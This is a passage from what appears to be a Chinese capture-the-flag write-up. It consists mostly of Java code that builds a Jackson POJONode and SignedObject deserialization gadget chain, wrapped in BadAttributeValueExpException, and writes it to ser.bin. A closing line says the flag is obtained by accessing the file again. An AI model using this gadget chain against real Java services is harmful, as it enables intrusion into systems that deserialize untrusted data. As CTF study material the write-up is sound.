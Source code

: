 ```bash
        SignedObject signedObject = new SignedObject(urlHelper, kp.getPrivate(), Signature.getInstance("DSA"));

        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass0.getDeclaredMethod("writeReplace");
        ctClass0.removeMethod(writeReplace);
        ctClass0.toClass();

        POJONode node = new POJONode(signedObject);
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);

        setFieldValue(val, "val", node);

        ser(val);

    }
    public static void ser(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        objectOutputStream.writeObject(obj);
        objectOutputStream.close();
    }
    public static void setFieldValue(Object obj, String field, Object val) throws Exception{
        Field dField = obj.getClass().getDeclaredField(field);
        dField.setAccessible(true);
        dField.set(obj, val);
    }


}
```

再次访问下 file 即可得到 flag

[![](assets/1709112106-38f8d61758b6b7821ffbdc6625a3f1d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227195853-9433ea52-d567-1.png)
